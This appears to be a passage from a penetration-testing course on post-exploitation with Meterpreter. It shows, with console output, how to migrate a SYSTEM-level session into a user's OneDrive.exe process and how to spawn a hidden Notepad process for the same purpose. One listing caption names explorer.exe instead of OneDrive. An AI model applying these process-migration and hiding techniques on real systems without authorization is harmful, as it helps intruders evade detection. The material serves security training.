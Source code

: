 We should note that we are only able to migrate into processes that execute at the same (or lower) [integrity and privilege level](https://docs.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control) than that of our current process. In the context of this example, we already elevated our privileges to NT AUTHORITY\\SYSTEM so our choices are plentiful.

Let's migrate our current process to **OneDrive.exe** of the user *offsec* by entering **migrate** and the process ID we want to migrate to.

```
meterpreter > migrate 8052
[*] Migrating from 2552 to 8052...
[*] Migration completed successfully.

meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                Path
 ---   ----  ----                         ----  -------  ----                ----
...
 2440   668   svchost.exe
 2472   668   svchost.exe
 2496   668   svchost.exe
 2568   668   svchost.exe
 2624   668   spoolsv.exe
 2660   668   svchost.exe
 2784   668   svchost.exe
 2928   668   svchost.exe
...
```

> Listing 63 - Migrate to explorer.exe

Listing 63 shows that we successfully migrated our process to the OneDrive process. When reviewing the process list, we'll find our original process, *met.exe* with ID 2552, does not exist anymore. Furthermore, we'll notice that the *ps* output contains less information than before. The reason for this is that we are now running in the context of the process with the ID 8052 and therefore, as user *offsec*.

```
meterpreter > getuid
Server username: ITWK01\offsec
```

> Listing 64 - Command execution as user offsec instead of NT AUTHORITY\\SYSTEM

Instead of migrating to an existing process or a situation in which we won't find any suitable processes to migrate to, we can use the *execute* Meterpreter command. This command provides the ability to create a new process by specifying a command or program.

To demonstrate this, let's start a hidden Notepad process and migrate to it as user *offsec*. For this, we use **execute** with **\-H** to create the process hidden from view and *notepad*\_ as argument for **\-f** to specify the command or program to run. Then, we migrate to the newly spawned process.
